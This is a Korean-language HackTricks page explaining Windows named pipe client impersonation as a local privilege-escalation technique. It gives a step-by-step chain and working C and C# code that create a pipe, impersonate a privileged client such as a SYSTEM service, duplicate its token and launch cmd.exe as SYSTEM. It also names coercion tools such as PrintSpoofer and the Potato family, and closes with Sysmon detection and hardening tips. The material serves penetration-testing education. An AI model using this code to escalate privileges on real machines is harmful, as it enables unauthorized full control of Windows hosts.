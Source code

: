 # Named Pipe Client Impersonation

{{#include ../../banners/hacktricks-training.md}}

Named Pipe client impersonation은 연결된 클라이언트의 보안 컨텍스트를 채택할 수 있게 해주는 로컬 권한 상승 primitive입니다. 실제로 SeImpersonatePrivilege로 코드를 실행할 수 있는 공격자는 권한 있는 클라이언트(예: SYSTEM 서비스)를 공격자가 제어하는 파이프에 연결하도록 유도하고, ImpersonateNamedPipeClient를 호출한 뒤 생성된 토큰을 primary 토큰으로 복제하여 클라이언트 계정(종종 NT AUTHORITY\SYSTEM)으로 프로세스를 실행할 수 있습니다.

이 페이지는 핵심 기법에 중점을 둡니다. SYSTEM을 당신의 파이프로 강제로 연결시키는 end-to-end exploit chains에 대해서는 아래에 참조된 Potato family 페이지들을 보세요.

## TL;DR
- Create a named pipe: \\.\pipe\<random> and wait for a connection.
- 권한 있는 구성요소가 여기에 연결하도록 만드세요 (spooler/DCOM/EFSRPC/etc.).
- 파이프에서 적어도 하나의 메시지를 읽은 다음 ImpersonateNamedPipeClient를 호출하세요.
- 현재 스레드에서 임퍼소네이션 토큰을 열고, DuplicateTokenEx(TokenPrimary)로 복제한 뒤 CreateProcessWithTokenW/CreateProcessAsUser로 SYSTEM 프로세스를 얻으세요.

## 요구 사항 및 주요 API
- 호출 프로세스/스레드가 일반적으로 필요로 하는 권한:
- SeImpersonatePrivilege — 연결된 클라이언트를 성공적으로 임퍼소네이트하고 CreateProcessWithTokenW를 사용하기 위해 필요합니다.
- 또는 SYSTEM을 임퍼소네이트한 상태에서 CreateProcessAsUser를 사용할 수 있으며, 이 경우 SeAssignPrimaryTokenPrivilege 및 SeIncreaseQuotaPrivilege가 필요할 수 있습니다(이 권한들은 SYSTEM을 임퍼소네이트한 상태에서는 충족됩니다).
- 사용되는 핵심 API:
- CreateNamedPipe / ConnectNamedPipe
- ReadFile/WriteFile (임퍼소네이션 전에 적어도 하나의 메시지를 읽어야 함)
- ImpersonateNamedPipeClient 및 RevertToSelf
- OpenThreadToken, DuplicateTokenEx(TokenPrimary)
- CreateProcessWithTokenW or CreateProcessAsUser
- 임퍼소네이션 레벨: 로컬에서 유용한 작업을 수행하려면 클라이언트가 SecurityImpersonation을 허용해야 합니다(많은 로컬 RPC/명명된 파이프 클라이언트의 기본값). 클라이언트는 파이프를 열 때 SECURITY_SQOS_PRESENT | SECURITY_IDENTIFICATION로 이를 낮출 수 있습니다.

## 최소 Win32 워크플로우 (C)
```c
// Minimal skeleton (no error handling hardening for brevity)
#include <windows.h>
#include <stdio.h>

int main(void) {
LPCSTR pipe = "\\\\.\\pipe\\evil";
HANDLE hPipe = CreateNamedPipeA(
pipe,
PIPE_ACCESS_DUPLEX,
PIPE_TYPE_MESSAGE | PIPE_READMODE_MESSAGE | PIPE_WAIT,
1, 0, 0, 0, NULL);

if (hPipe == INVALID_HANDLE_VALUE) return 1;

// Wait for privileged client to connect (see Triggers section)
if (!ConnectNamedPipe(hPipe, NULL)) return 2;

// Read at least one message before impersonation
char buf[4]; DWORD rb = 0; ReadFile(hPipe, buf, sizeof(buf), &rb, NULL);

// Impersonate the last message sender
if (!ImpersonateNamedPipeClient(hPipe)) return 3; // ERROR_CANNOT_IMPERSONATE==1368

// Extract and duplicate the impersonation token into a primary token
HANDLE impTok = NULL, priTok = NULL;
if (!OpenThreadToken(GetCurrentThread(), TOKEN_ALL_ACCESS, FALSE, &impTok)) return 4;
if (!DuplicateTokenEx(impTok, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &priTok)) return 5;

// Spawn as the client (often SYSTEM). CreateProcessWithTokenW requires SeImpersonatePrivilege.
STARTUPINFOW si = { .cb = sizeof(si) }; PROCESS_INFORMATION pi = {0};
if (!CreateProcessWithTokenW(priTok, LOGON_NETCREDENTIALS_ONLY,
L"C\\\\Windows\\\\System32\\\\cmd.exe", NULL,
0, NULL, NULL, &si, &pi)) {
// Fallback: CreateProcessAsUser after you already impersonated SYSTEM
CreateProcessAsUserW(priTok, L"C\\\\Windows\\\\System32\\\\cmd.exe", NULL,
NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi);
}

RevertToSelf(); // Restore original context
return 0;
}
```
참고:
- ImpersonateNamedPipeClient가 ERROR_CANNOT_IMPERSONATE (1368)를 반환할 경우, 먼저 파이프에서 읽었는지 확인하고 클라이언트가 impersonation을 Identification level로 제한하지 않았는지 확인하세요.
- 프로세스 생성에 적합한 primary token을 만들려면 DuplicateTokenEx를 SecurityImpersonation 및 TokenPrimary와 함께 사용하는 것이 좋습니다.

## .NET 빠른 예제
.NET에서는 NamedPipeServerStream가 RunAsClient를 통해 impersonate할 수 있습니다. 일단 impersonate한 후에는 thread token을 복제하여 프로세스를 생성하세요.
```csharp
using System; using System.IO.Pipes; using System.Runtime.InteropServices; using System.Diagnostics;
class P {
[DllImport("advapi32", SetLastError=true)] static extern bool OpenThreadToken(IntPtr t, uint a, bool o, out IntPtr h);
[DllImport("advapi32", SetLastError=true)] static extern bool DuplicateTokenEx(IntPtr e, uint a, IntPtr sd, int il, int tt, out IntPtr p);
[DllImport("advapi32", SetLastError=true, CharSet=CharSet.Unicode)] static extern bool CreateProcessWithTokenW(IntPtr hTok, int f, string app, string cmd, int c, IntPtr env, string cwd, ref ProcessStartInfo si, out Process pi);
static void Main(){
using var s = new NamedPipeServerStream("evil", PipeDirection.InOut, 1);
s.WaitForConnection();
// Ensure client sent something so the token is available
s.RunAsClient(() => {
IntPtr t; if(!OpenThreadToken(Process.GetCurrentProcess().Handle, 0xF01FF, false, out t)) return; // TOKEN_ALL_ACCESS
IntPtr p; if(!DuplicateTokenEx(t, 0xF01FF, IntPtr.Zero, 2, 1, out p)) return; // SecurityImpersonation, TokenPrimary
var psi = new ProcessStartInfo("C\\Windows\\System32\\cmd.exe");
Process pi; CreateProcessWithTokenW(p, 2, null, null, 0, IntPtr.Zero, null, ref psi, out pi);
});
}
}
```
## SYSTEM을 당신의 pipe로 유도하는 일반적인 트리거/강제 방법
이 기술들은 권한 있는 서비스가 당신의 named pipe에 연결하도록 강제하여 해당 서비스를 가장할 수 있게 합니다:
- Print Spooler RPC trigger (PrintSpoofer)
- DCOM activation/NTLM reflection variants (RoguePotato/JuicyPotato[NG], GodPotato)
- EFSRPC pipes (EfsPotato/SharpEfsPotato)

자세한 사용법 및 호환성은 다음을 참조하세요:

-
{{#ref}}
roguepotato-and-printspoofer.md
{{#endref}}
-
{{#ref}}
juicypotato.md
{{#endref}}

서비스 트리거로부터 SYSTEM을 spawn하기 위해 파이프를 제작하고 가장하는 전체 예제가 필요하면 다음을 참조하세요:

-
{{#ref}}
from-high-integrity-to-system-with-name-pipes.md
{{#endref}}

## 문제 해결 및 주의 사항
- ImpersonateNamedPipeClient를 호출하기 전에 pipe에서 적어도 하나의 메시지를 읽어야 합니다; 그렇지 않으면 ERROR_CANNOT_IMPERSONATE (1368)가 발생합니다.
- 클라이언트가 SECURITY_SQOS_PRESENT | SECURITY_IDENTIFICATION으로 연결하면 서버가 완전히 가장할 수 없습니다; GetTokenInformation(TokenImpersonationLevel)를 통해 토큰의 impersonation level을 확인하세요.
- CreateProcessWithTokenW는 호출자에게 SeImpersonatePrivilege가 필요합니다. 만약 ERROR_PRIVILEGE_NOT_HELD (1314)로 실패하면, 이미 SYSTEM을 가장한 상태에서 CreateProcessAsUser를 사용하세요.
- 파이프를 강화(harden)했다면 대상 서비스가 연결할 수 있도록 파이프의 security descriptor를 확인하세요; 기본적으로 \\.\pipe 아래의 파이프는 서버의 DACL에 따라 접근 가능합니다.

## 탐지 및 하드닝
- named pipe 생성 및 연결을 모니터링하세요. Sysmon Event IDs 17 (Pipe Created) 및 18 (Pipe Connected)는 정상적인 pipe 이름을 기준으로 삼고 토큰 조작 이벤트에 앞서는 비정상적이거나 무작위같은 pipe를 포착하는 데 유용합니다.
- 다음과 같은 순서를 찾아보세요: 프로세스가 pipe를 생성 → SYSTEM 서비스가 연결 → 생성한 프로세스가 SYSTEM으로 자식 프로세스를 spawn.
- 비필수 서비스 계정에서 SeImpersonatePrivilege를 제거하고, 높은 권한으로의 불필요한 서비스 로그온을 피하여 노출을 줄이세요.
- 방어적 개발: 신뢰할 수 없는 named pipe에 연결할 때, 서버가 불필요하게 클라이언트를 완전히 가장하지 못하도록 SECURITY_SQOS_PRESENT와 SECURITY_IDENTIFICATION을 지정하세요.

## References
- Windows: ImpersonateNamedPipeClient documentation (impersonation requirements and behavior). https://learn.microsoft.com/en-us/windows/win32/api/namedpipeapi/nf-namedpipeapi-impersonatenamedpipeclient
- ired.team: Windows named pipes privilege escalation (walkthrough and code examples). https://ired.team/offensive-security/privilege-escalation/windows-namedpipes-privilege-escalation

{{#include ../../banners/hacktricks-training.md}}
